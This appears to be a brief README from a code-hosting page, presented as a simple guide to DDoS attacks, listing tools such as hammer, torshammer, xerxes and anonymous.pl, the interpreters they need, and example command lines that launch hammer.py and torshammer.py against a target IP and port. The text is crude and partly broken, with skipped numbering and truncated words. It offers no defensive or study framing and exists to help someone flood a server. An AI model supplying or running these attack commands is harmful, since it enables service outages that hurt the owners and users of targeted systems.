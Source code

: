 #simple step DDos Building By Me
#copyright By ~mr a~
1 tool ddos hammer
2 tool ddos torshammer
3 tool ddos xerxes
5 tool ddos anonymous.pl
6 tool ddos Mr A

#script install to running ddo
1 python
2 python2 
3 perl
4 clang

#example run
python hammer.py -s ip -r packet -p port
python torshammer.py -t ip -p port 

